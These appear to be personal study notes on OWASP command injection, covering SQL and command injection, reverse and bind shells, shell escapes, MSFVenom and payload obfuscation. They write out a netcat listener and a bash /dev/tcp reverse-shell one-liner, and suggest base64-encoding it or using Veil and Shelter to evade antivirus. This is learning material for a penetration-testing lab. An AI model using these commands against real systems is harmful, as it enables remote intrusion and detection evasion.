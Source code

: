 # OWASP TOP 10

## Resources:
reverse shell : https://www.stationx.net/reverse-shell-cheat-sheet/
terminal command to start server: sudo openvpn /home/avanish/Downloads/avanish.srivats.ovpn

## COMMAND INJECTION
user controlled input is interpreted as actual commands or parameters.

### TYPES:

SQL Injection: This occurs when user controlled input is passed to SQL queries.
As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries. 

Command Injection: This occurs when user input is passed to system commands.
As a result, an attacker is able to execute arbitrary system commands on application servers.


### methods:
1)Reverse shell

Depending on what resources are available we change the tool weuse, given here only for bash,but inncludes python,perl etc.


ethical hacking and penetration testing, there are two types of shells: a reverse shell and a bind shell. 
A reverse shell is when the target machine connects back to the attacker's machine, which is listening for a connection, allowing the attacker to gain remote access to the target machine. On the other hand, a bind shell is when the target machine listens for incoming connections on a specified port, and the attacker machine connects to it.
wHAT IS A shell?
Simply put, the shell is a program that takes commands from the keyboard and gives them to the operating system to perform.
EX:
bash-bourne again shell
others: ksh, tcsh and zsh

a shell script is a file containing a series of commands

reverse shell attack steps:
starting a listener using netcat
nc -nvlp <port>
bash -i >& /dev/tcp/<ip>/<port> 0>&1
This BASH one-liner opens an interactive shell (-i) and redirects the input, output, and error streams to a TCP socket (IP and port) connected to the attacker's IP and port. The file descriptor 0>&1 links the input and output streams, permitting two-way communication between the attacker and the target.

THis is followed by a shell escape,which is escaping the conditions applied to the shell to get more priveleges.

Simple Shell Escape -  /bin/sh -i or /bin/bash -i
Echo Shell Escape  - echo os.system('/bin/bash')

Compiled shells are binary programs executed directly on the target system without an interpreter. 


MSFVenom is a powerful payload generation tool part of the Metasploit Framework. It can generate reverse shell payloads in various formats, including exe, elf, war, asp, and malicious DLL files. Staged and non-staged are two types of payloads generated by MSFVenom.

Obfuscation

Obfuscation is disguising or changing code to make it more difficult to understand, analyze, or reverse engineer. In reverse shells, obfuscation can help evade detection by security tools, such as antivirus software, intrusion detection systems, and firewalls.

bash -i >& /dev/tcp/<ip>/<port> 0>&1 | base64

obfuscate reverse shell code, such as Veil and Shelter
